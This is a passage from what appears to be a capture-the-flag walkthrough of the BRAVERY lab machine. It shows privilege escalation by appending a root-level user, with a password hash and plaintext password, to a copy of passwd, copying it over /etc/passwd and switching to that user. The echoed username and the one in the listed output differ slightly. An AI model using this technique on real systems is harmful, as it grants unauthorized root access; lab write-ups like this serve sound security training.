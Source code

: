 Then we create the **s4rgaz** user and redirect to the **passwd** file in the current directory, we verify that the user was created, we copy the **passwd** file to **/etc/passwd**, we change to the **s4rgaz** user providing the password and we got root.

```console
bash-4.2$ echo 's4rgasz$1$um05ZRrH$2I3eWNoc.MLsPEoEp1LCM.:0:0:root:/root:/bin/bash' >> passwd
bash-4.2$ tail -2 passwd
rick:x:1004:1004::/home/rick:/bin/bash
s4rgaz:$1$um05ZRrH$2I3eWNoc.MLsPEoEp1LCM.:0:0:root:/root:/bin/bash
bash-4.2$ cp passwd /etc/passwd
bash-4.2$ su s4rgaz
Password: br4vR00t
[root@bravery tmp]# whoami
root
[root@bravery tmp]# cat ~/proof.txt
Congratulations on rooting BRAVERY. :)
```

